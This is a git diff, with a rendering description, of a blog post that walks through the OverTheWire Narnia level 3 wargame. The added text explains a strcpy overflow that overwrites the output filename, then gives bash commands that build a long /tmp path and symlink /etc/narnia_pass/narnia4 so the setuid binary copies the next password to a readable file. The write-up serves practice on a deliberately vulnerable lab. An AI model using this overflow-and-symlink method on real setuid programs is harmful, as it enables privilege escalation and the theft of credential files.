

Before and after one commit to MCPA/MCPA.github.io, a Jekyll site: the page built from _posts/narnia-overthewire/2015-10-12-narnia03.markdown, in a window 1280 px wide and 1400 px high, scrolled down 5428 px. Shown: the whole window at 92% size, without its empty margins (3-1030 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 6390 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
finished narnia03 writeup

````diff
--- a/_posts/narnia-overthewire/2015-10-12-narnia03.markdown
+++ b/_posts/narnia-overthewire/2015-10-12-narnia03.markdown
@@ -2,11 +2,13 @@
 layout: post
 title:  "Narnia Level 3"
 date:   2015-10-12 12:52
-categories: narnia wargame pwnable overthewire
+categories: narnia wargame pwnable overthewire python c
 author: Leander
 ---
 
-This is a solution guide to the Narnia3 Level at [overthewire](http://overthewire.org/wargames/narnia/). This write-up was created on 6 October 2015.
+This is a solution guide to the Narnia3 Level at [overthewire](http://overthewire.org/wargames/narnia/). This write-up was created on 12 October 2015.
+
+<strong>Challenge Description:</strong> Narnia3 requires the attacker to take advantage of a <em>strcpy()</em> vulnerability which does not have any bounds checking. Since the <em>strcpy()</em> is executed blindly it creates a situation where the user can overwrite the buffer affecting all the variables in main.
 <!--break-->
 
 First connect to the lab
@@ -138,13 +140,27 @@ Confirm the view of the stack by observing is at a designated breakpoint - 0x804
 
 ![gdb stack view at breakpoint](/images/narnia03_gdb_stack_view.png)
 
-Beginning at 0x8048526 the character string /dev/null for ofile is placed onto the top of the stack at esp+58, followed by ifile at esp+38 as shown at 0x8048579.
+Beginning at 0x8048526 the character string /dev/null for ofile is placed onto the top of the stack at esp+58. The next interesting point is around 0x8048579 where a strcpy operation takes arg[0] and copies it into ifile. If we reference our stack table now we can see what is happened to our input earlier, because the "abc" overflowed into the ofile!
 
 ![objdump screenshot with intel syntax](/images/narnia03_objdump_screenshot.png)
 
+Now it's time to craft our input to take advantage of this vulnerability. The general idea is that we are going to use two file names with the same name to pass as arguments to ifile and ofile. We will take advantage of the write function which was previously writing to /dev/null and make it write something else instead. Which if we create a symbollically linked file as our input we can read the key.
+
+{% highlight bash linenos %}
+python -c 'print(len("/tmp/" + "a"*27))' #verify our temp folder is long enough
+mkdir -p $(python -c 'print ("/tmp/" + "a"*27 + "/tmp")') #create the directory
+cd $(python -c 'print ("/tmp/" + "a"*27 + "/tmp")') #change to the directory
+ln -s /etc/narnia_pass/narnia4 abc #create the symbollically linked file
+touch /tmp/abc #create our temp file for the key
+chmod 777 /tmp/abc #where the key will be written
+/narnia/narnia3 `pwd`/abc #test our solution
+cat /tmp/abc #read key
+{% endhighlight %}
+
+BINGO! level 4 password is ```????```
 
 <h3>Footnotes:</h3>
 [^1]: I use the tmp folder because that is the one of the few globally write/read folders in the linux system from which I don't need a specific user's access privileages to use. This allows me to create folders inside /tmp which will be owned by myself and then still be able to read other folders or files inside the tmp directory, provided I know the file or directory name.
-[^2]: Keep in mind the reason the numbers I'm referencing are different than what is in the screenshot is because I am using decimal number references. It is only a matter of preference and is easier for me to read
+[^2]: The numbers I reference are different than what is in the screenshot because I am using decimal instead of hexadecimal number references. It is only a matter of preference and is easier for me to read.
 [^3]: How do I know it's 4 bytes for the variable? Well an integer value has a maximum value of 4,294,967,296. Which factors into a value of 2^32, and last 32 bits / 8, because 8 bits are in a byte, = 4 bytes.
 [^4]: First you have to make sure you have a readable file, next you need to open the file using gdb: ```gdb ./narnia3 test```. Next set a breakpoint: ```b *0x8048546``` and then type ```run```. Last, examine the stack with the following command: ```x /40xw $esp```. If you need to learn more about gdb check it out [here](link to gdb).
````
